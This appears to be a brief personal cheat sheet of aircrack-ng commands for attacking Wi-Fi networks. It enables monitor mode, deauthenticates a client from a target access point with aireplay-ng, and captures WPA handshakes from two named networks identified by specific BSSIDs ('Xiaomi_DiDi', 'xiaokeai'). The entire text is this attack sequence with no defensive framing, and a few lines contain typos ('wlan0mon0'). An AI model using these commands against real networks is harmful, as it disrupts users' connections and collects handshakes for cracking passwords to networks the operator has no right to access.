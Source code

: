 1. airmon-ng start wlan0
2. airodump-ng wlan0mon 
3. next airodump-ng
4. aireplay-ng -0 10 -a target-mac -c client-mac wlan0mon0


airodump-ng -c 10 --bssid  28:D1:27:8C:6B:65 -w Xiaomi_DiDi wlan0mon (handshake)



airodump-ng -c 1 --bssid  48:0E:EC:50:97:E4 -w xiaokeai wlan0mon




